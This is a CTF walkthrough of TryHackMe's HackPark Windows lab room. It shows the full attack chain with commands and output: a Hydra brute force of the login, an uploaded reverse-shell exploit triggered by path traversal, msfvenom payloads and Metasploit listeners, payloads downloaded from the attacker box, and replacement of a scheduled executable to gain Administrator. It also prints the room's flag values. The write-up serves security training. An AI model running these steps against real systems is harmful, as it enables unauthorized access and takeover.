

# TryHackMe's HackPark Room

## Introduction

In this article, we’ll dive into TryHackMe's HackPark room, a Windows-based CTF challenge that offers a hands-on experience with various techniques, including login brute-forcing, privilege escalation, and service exploitation. Throughout this walkthrough, we’ll simulate real-world pentesting scenarios, leveraging tools like Hydra for brute-force attacks, exploring web-based vulnerabilities, and escalating privileges through common misconfigurations. Whether you're a beginner sharpening your offensive security skills or an intermediate pentester, this room provides valuable insights into Windows exploitation techniques. Let's get started!

## Login brute-forcing

In the room you are presented with a web application, we are going to crack the login page with a dictionary attack using a cracking tool called **Hydra** .
First, you need to know the HTTP method used to submit the login. You can check that in the Network tab of the Developer's tools.  
Open it and try to log in with random credentials.


You can see that the method used is POST.  
Another piece of information required by Hydra is the request used by the client to log in.  
In a dictionary attack Hydra will try to log in with all the possible values contained in the wordlist, so it needs to know how to submit the request to the login page.  
Browse to the Request subtab to find this information, as shown below.



Be sure to click on the Raw button to get the raw request, that's the one you need to craft the hydra command.


Here's the command, as you can see it specifies the 'http-post-form' (because the request is a POST) and a long string that instructs hydra on how to perform the request.  
Let's break it down for clarity:  
"PATH_TO_LOGIN_PAGE:RAW_REQUEST:ERROR_MESSAGE"  
It contains three values separated by colons:

- The path to the login page we want to crack
- The raw request, here we can put the hydra placeholders to specify the values that we are trying to brute-force. For example, below we have "Password=^PASS^", ^PASS^ will be replaced by Hydra at each iteration with the values in the wordlist
- The error message the page prints when the login fails: this way hydra can differentiate failed and successfull logins

We try to login using the admin user and we use the notorious rockyou wordlist, available on the attack box.

```bash
root@ip-10-10-75-156:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.108.43 http-post-form "/Account/login.aspx:__VIEWSTATE=5PmGqXvpbRNd2gFJ3Yjhz3x5CJ%2Bq1NCL2w6AoRehBRaa1PAX%2BzkUs1fa2yZmoYl0IzRpgXXpl15G%2FZJwKsYkuSjdyAeEhRIn8kC6tQcWD0vS33vry7Dlx7KpQjS6Qoco4CTbcRXlztLfIQz0VfSwsQstHFfQ0lxabYGGmsAda8kp1pzd&__EVENTVALIDATION=gfdfokcPIZFhFUsxfPXh8pjS93ogfyXuGDDFHQEsK6ckGeHu0MCwgdVkPH6dinL6MOD7FO0RSGh949T7IyS%2FXMxqgBi7PZbRxFzE4jgcKwLJff0LmpSxhJB36lXZBT0UY5hgzd3gSeX5zTvZ6iNgQpRdqppGQzGm4SXMGhgatQ3zXx6l&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-09-22 13:34:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.108.43:80//Account/login.aspx:__VIEWSTATE=5PmGqXvpbRNd2gFJ3Yjhz3x5CJ%2Bq1NCL2w6AoRehBRaa1PAX%2BzkUs1fa2yZmoYl0IzRpgXXpl15G%2FZJwKsYkuSjdyAeEhRIn8kC6tQcWD0vS33vry7Dlx7KpQjS6Qoco4CTbcRXlztLfIQz0VfSwsQstHFfQ0lxabYGGmsAda8kp1pzd&__EVENTVALIDATION=gfdfokcPIZFhFUsxfPXh8pjS93ogfyXuGDDFHQEsK6ckGeHu0MCwgdVkPH6dinL6MOD7FO0RSGh949T7IyS%2FXMxqgBi7PZbRxFzE4jgcKwLJff0LmpSxhJB36lXZBT0UY5hgzd3gSeX5zTvZ6iNgQpRdqppGQzGm4SXMGhgatQ3zXx6l&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 736.00 tries/min, 736 tries in 00:01h, 14343662 to do in 324:49h, 16 active
[80][http-post-form] host: 10.10.108.43   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-09-22 13:36:57
```

The attack worked and you discovered that the password for the admin user is **1qaz2wsx**

## Target Exploitation

Login with the admin credentials and go to the about page.  
Here you can find the version of the web application, with this information you will look for an exising exploit.


Searching on exploitdb you will find the following exploit, download it.


The exploit is not plug and play, it requires some configuration.  
Find the following line in the exploit's code and replace the ip with your attack box ip and the port with port 443.

```bash
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 4445)) {
```

The steps to use the exploit are clearly explained in the exploit itself.  
First, you need a way to upload the exploit on the target machine.  
Go to `http://10.10.108.43/admin/app/editor/editpost.cshtml`  
Click on the file manager as shown in the image below.


Remember to rename the exploit to **PostView.ascx** before uploading it, otherwise it won't work.

```bash
root@ip-10-10-75-156:~# mv 46353.cs PostView.ascx
```

Use the Upload button to upload the exploit.


Before triggering the exploit start a listener on port 443: the exploit will start a reverse shell to your machine, you need to listen for it in order to catch it.

```bash
root@ip-10-10-75-156:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```

Time to trigger it! Visit `http://10.10.108.43/?theme=../../App_Data/files` and voilà, if everything was set up properly you should now have a shell.

```bash
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.10.108.43 49268 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## Privilege Escalation

You currently have a shell with the user "iis apppool\blog", now it's time to elevate your privileges and get those admin rights.  
Before doing that let's move to a more stable shell: netcat shells are useful but are not very stable.  
Create a reverse shell payload with **msfvenom** that will give you a meterpreter shell.

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.156 LPORT=4444 -f exe > rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Upload it to the target machine like you did with the exploit.


Let's locate it in the terminal (IIS server files are usually found at c:\inetpub\wwwroot).

```bash
cd c:\inetpub\wwwroot\App_Data\files
c:\inetpub\wwwroot\App_Data\files>cd c:\inetpub\wwwroot\App_Data\files
dir
c:\inetpub\wwwroot\App_Data\files>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\inetpub\wwwroot\App_Data\files
09/22/2024  06:41 AM    <DIR>          .
09/22/2024  06:41 AM    <DIR>          ..
08/04/2019  03:11 PM           103,419 26572c3a-0e51-4a9f-9049-b64e730ca75d.jpg
09/22/2024  06:07 AM             3,504 PostView.ascx
09/22/2024  06:41 AM            73,802 rev_shell.exe
               3 File(s)        180,725 bytes
               2 Dir(s)  39,130,165,248 bytes free
```

Before running the payload you need to setup a meterpreter listener so fire up metasploit with `msfconsole` and execute the following commands.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.75.156
lhost => 10.10.75.156
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
```

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.75.156:4444
```

Run the payload.

```bash
rev_shell.exe
c:\inetpub\wwwroot\App_Data\files>rev_shell.exe
```

You now have a meterpreter shell which is stable and full of nice features.

```bash
[*] Started reverse TCP handler on 10.10.75.156:4444
[*] Sending stage (175686 bytes) to 10.10.108.43
[*] Meterpreter session 1 opened (10.10.75.156:4444 -> 10.10.108.43:49310) at 2024-09-22 14:47:23 +0100

meterpreter >
```

For example you can use the `sysinfo` command to gather additional information about the system.

```bash
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

That's great but our privileges are still low, let's move to the escalation part.  
You will use a script from the **PowerSploit** framework, download it.

```bash
root@ip-10-10-75-156:~# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2024-09-22 15:55:41--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: \u2018PowerUp.ps1\u2019

PowerUp.ps1                                100%[=====================================================================================>] 586.50K  --.-KB/s    in 0.006s

2024-09-22 15:55:42 (99.6 MB/s) - \u2018PowerUp.ps1\u2019 saved [600580/600580]
```

Upload the file to the target machine. As you can see meterpreter provides a very convenient `upload` command.

```bash
meterpreter > upload /root/PowerUp.ps1
[*] Uploading  : /root/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /root/PowerUp.ps1 -> PowerUp.ps1
```

Load the powershell module, fire up a powershell shell and run the script.

```bash
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

....
Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WScheduler
Path           : C:\PROGRA~2\SYSTEM~1\WScheduler.exe /LOGON
ModifiableFile : @{ModifiablePath=C:\PROGRA~2\SYSTEM~1\WScheduler.exe; IdentityReference=Everyone;
                 Permissions=System.Object[]}
Name           : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WScheduler
Check          : Modifiable Registry Autorun

Key            : HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run\WScheduler
Path           : C:\PROGRA~2\SYSTEM~1\WScheduler.exe /LOGON
ModifiableFile : @{ModifiablePath=C:\PROGRA~2\SYSTEM~1\WScheduler.exe; IdentityReference=Everyone;
                 Permissions=System.Object[]}
Name           : HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run\WScheduler
Check          : Modifiable Registry Autorun
...
```

From the partial output we notice that the scheduler service is running.  
The Windows scheduler is a very interesting service for our purposes. Its job is to run other executables at specific times: if we manage to replace one of those executables, our malicious executable will run with the permissions associated with the user account under which the scheduled task was created.  
Explore the folder that contains WScheduler.exe, `C:\PROGRA~2\SYSTEM~1\` which is a shortened version for `C:\Program Files (x86)\SystemScheduler`  
In the Events folder there is an interesting log.

```bash
meterpreter > cd "C:\\Program Files (x86)\\SystemScheduler\\Events"
meterpreter > ls
Listing: C:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1961   fil   2024-09-22 17:23:33 +0100  20198415519.INI
100666/rw-rw-rw-  52139  fil   2024-09-22 17:23:33 +0100  20198415519.INI_LOG.txt
100666/rw-rw-rw-  290    fil   2020-10-02 22:50:12 +0100  2020102145012.INI
100666/rw-rw-rw-  186    fil   2024-09-22 17:16:27 +0100  Administrator.flg
100666/rw-rw-rw-  182    fil   2024-09-22 17:16:25 +0100  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2024-09-22 13:09:10 +0100  Scheduler.flg
100666/rw-rw-rw-  449    fil   2024-09-22 17:16:27 +0100  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2024-09-22 17:16:48 +0100  service.flg

meterpreter > cat 20198415519.INI_LOG.txt
......
09/22/24 09:19:01,Event Started Ok, (Administrator)
09/22/24 09:19:33,Process Ended. PID:2324,ExitCode:4,Message.exe (Administrator)
09/22/24 09:20:01,Event Started Ok, (Administrator)
09/22/24 09:20:33,Process Ended. PID:3076,ExitCode:4,Message.exe (Administrator)
09/22/24 09:21:01,Event Started Ok, (Administrator)
09/22/24 09:21:33,Process Ended. PID:3132,ExitCode:4,Message.exe (Administrator)
09/22/24 09:22:01,Event Started Ok, (Administrator)
09/22/24 09:22:33,Process Ended. PID:2896,ExitCode:4,Message.exe (Administrator)
09/22/24 09:23:01,Event Started Ok, (Administrator)
09/22/24 09:23:33,Process Ended. PID:3888,ExitCode:4,Message.exe (Administrator)
09/22/24 09:24:01,Event Started Ok, (Administrator)
```

From this log it looks like the Message.exe executable is being run every minute from the Administrator account, if we manage to replace it with our payload we're in the clear.  
Make a reverse shell with msfvenom, be sure to name it **Message.exe**

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.156 LPORT=5555 -f exe > Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Rename the actual Message.exe executable and replace it with your payload.

```bash
meterpreter > cd ..
meterpreter > pwd
C:\Program Files (x86)\SystemScheduler
meterpreter > mv Message.exe Message.bkp
meterpreter > upload /root/Message.exe
[*] Uploading  : /root/Message.exe -> Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /root/Message.exe -> Message.exe
[*] Completed  : /root/Message.exe -> Message.exe
```

Now that your payload is in place it will run every minute or so, trying to connect back to a meterpreter listener. Let's set one up.  
Background your current session with CTRL+Z and execute the following commands.

```bash
meterpreter >
Background session 4? [y/N]
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.75.156:5555
[*] Sending stage (175686 bytes) to 10.10.108.43
[*] Meterpreter session 5 opened (10.10.75.156:5555 -> 10.10.108.43:49484) at 2024-09-22 17:30:36 +0100

meterpreter >
```

After waiting a while you should get the meterpreter shell.  
You are now logged in as administrator.

```bash
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Let's grab the flags.

```bash
meterpreter > cd c:\\users\\jeff\\desktop
meterpreter > dir
Listing: c:\users\jeff\desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-08-04 19:54:53 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 19:57:10 +0100  user.txt

meterpreter > cat user.txt
759bd8af507517bcfaede78a21a73e39meterpreter >
```

```bash
meterpreter > cd c:\\users\\administrator\\desktop
meterpreter > dir
Listing: c:\users\administrator\desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1029  fil   2019-08-04 12:36:42 +0100  System Scheduler.lnk
100666/rw-rw-rw-  282   fil   2019-08-03 18:43:54 +0100  desktop.ini
100666/rw-rw-rw-  32    fil   2019-08-04 19:51:42 +0100  root.txt

meterpreter > cat root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72meterpreter >
```

## Privilege Escalation without Metasploit

Privilege escalation is very comfortable with metasploit, but it's not the only way.  
Let's see how we can go about without it, just for fun.  
Assuming you still have the basic netcat shell, we will stabilize it like we did earlier but no meterpreter this time! Just a plain reverse shell.  
Generate the payload.

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.75.156 LPORT=6666 --encoder x86/shikata_ga_nai -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
```

No fancy `upload` command this time, so start a http server in the same folder where the payload is located.

```bash
root@ip-10-10-75-156:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

From the netcat shell download the payload on the target machine with the following powershell command.

```bash
powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/shell.exe" -OutFile "c:\windows\temp\shell.exe"
c:\Windows\Temp>powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/shell.exe" -OutFile "c:\windows\temp\shell.exe"
dir
c:\Windows\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Windows\Temp
09/22/2024  09:52 AM    <DIR>          .
09/22/2024  09:52 AM    <DIR>          ..
...
09/22/2024  09:52 AM            73,802 shell.exe
08/06/2019  02:13 PM                21 stage1-complete.txt
08/06/2019  02:13 PM            28,495 stage1.txt
05/12/2019  09:03 PM           113,328 svcexec.exe
08/06/2019  02:13 PM                67 tmp.dat
              14 File(s)        708,784 bytes
               3 Dir(s)  39,058,317,312 bytes free
```

We can confirm that the payload was successfully downloaded looking at the http server output.

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.108.43 - - [22/Sep/2024 17:44:45] "GET /shell.exe HTTP/1.1" 200 -
```

Start a listener.

```bash
root@ip-10-10-75-156:~# nc -lvnp 6666
Listening on [0.0.0.0] (family 0, port 6666)
```

Run the payload.

```bash
c:\windows\temp\shell.exe
c:\Windows\Temp>c:\windows\temp\shell.exe
```

Get the shell.

```bash
root@ip-10-10-75-156:~# nc -lvnp 6666
Listening on [0.0.0.0] (family 0, port 6666)
Connection from 10.10.108.43 49536 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\Windows\Temp>whoami
whoami
iis apppool\blog
```

Here we go again, with the good old "iis apppool\blog" user account.  
This time, to see something different, we will use a different post exploitation tool: **winPEAS**  
The tool is available in the attack box, start a http server in its folder.

```bash
root@ip-10-10-75-156:~# cd /opt/PEAS/winPEAS/winPEASbat
root@ip-10-10-75-156:/opt/PEAS/winPEAS/winPEASbat# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download it on the target machine.

```bash
c:\Windows\Temp>powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/winPEAS.bat" -OutFile "c:\windows\temp\winPEAS.bat"
powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/winPEAS.bat" -OutFile "c:\windows\temp\winPEAS.bat"
```

Run the script.

```bash
C:\Windows\Temp>winPEAS.bat > peas_out.txt
winPEAS.bat > peas_out.txt
```

From the partial output you notice that the **WindowsScheduler** service is running and now you know why that is interesting.

```bash
_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-> [+] RUNNING PROCESSES <_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-
[i] Something unexpected is running? Check for vulnerabilities
  [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#running-processes

Image Name                     PID Services
========================= ======== ============================================
...
WService.exe                  1432 WindowsScheduler
WScheduler.exe                1560 N/A
```

You can now proceed similarly to the metasploit case.  
Create a payload and start the http server.

```bash
root@ip-10-10-75-156:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.75.156 LPORT=3333 --encoder x86/shikata_ga_nai -f exe > Message.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
root@ip-10-10-75-156:~# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Start a listener.

```bash
root@ip-10-10-75-156:~# nc -lvnp 3333
Listening on [0.0.0.0] (family 0, port 3333)
```

Download the payload on the target machine, be sure to remove the old 'Message.exe' payload.

```bash
C:\Program Files (x86)\SystemScheduler>powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/Message.exe" -OutFile ".\Message.exe"
powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/Message.exe" -OutFile ".\Message.exe"
```

Wait a while.

```bash
root@ip-10-10-75-156:~# nc -lvnp 3333
Listening on [0.0.0.0] (family 0, port 3333)
Connection from 10.10.108.43 49591 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>
```

Check if you have admin rights by reading the admin flag.

```bash
C:\PROGRA~2\SYSTEM~1>cd c:\users\administrator\desktop
cd c:\users\administrator\desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of c:\Users\Administrator\Desktop

08/04/2019  11:49 AM    <DIR>          .
08/04/2019  11:49 AM    <DIR>          ..
08/04/2019  11:51 AM                32 root.txt
08/04/2019  04:36 AM             1,029 System Scheduler.lnk
               2 File(s)          1,061 bytes
               2 Dir(s)  39,056,797,696 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
```

## Conclusion

That's all for this room, see you in the next one.  
In the meanwhile, happy hacking!
